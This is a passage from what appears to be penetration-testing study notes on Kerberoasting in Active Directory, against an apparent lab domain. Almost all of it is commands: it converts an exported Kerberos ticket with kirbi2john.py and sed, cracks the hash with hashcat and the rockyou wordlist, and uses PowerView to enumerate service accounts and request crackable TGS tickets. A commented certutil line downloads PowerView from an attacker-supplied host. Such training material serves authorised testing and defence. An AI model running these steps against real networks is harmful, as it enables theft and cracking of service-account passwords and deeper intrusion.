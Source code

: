 
**6.** We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**7.** Use [kirbi2john.py](kirbi2john.md):


```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

**8.** Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

### PowerView

Let's use PowerView to extract the TGS tickets and convert them to Hashcat format. 

**1.** Enumerating SPNs with PowerView:

```powershell
# certutil -urlcache -f http://$ip/PowerView.ps1 PowerView.ps1
# Import module
Import-Module .\PowerView.ps1

# List SPNs: Option 1
Get-DomainUser * -spn | select samaccountname

# List SPNs: Option 2
Get-NetUser -SPN
```

**2.** Generate a TGS ticker for a specific user:

```powershell
# Option 1
Get-DomainUser -Identity $samAccountName | Get-DomainSPNTicket -Format Hashcat
# Example: 
# Get-DomainUser -Identity MSSQLSvc/SQL01.inlanefreight.local:1433 | Get-DomainSPNTicket -Format Hashcat


# Option 2
Get-DomainSPNTicket -SPN $samAccountName -OutputFormat Hashcat | select -ExpandProperty Hash > file.txt
# Example: 
# Get-DomainSPNTicket -SPN MSSQLSvc/SQL01.inlanefreight.local:1433 -OutputFormat Hashcat | select -ExpandProperty Hash > file.txt
```
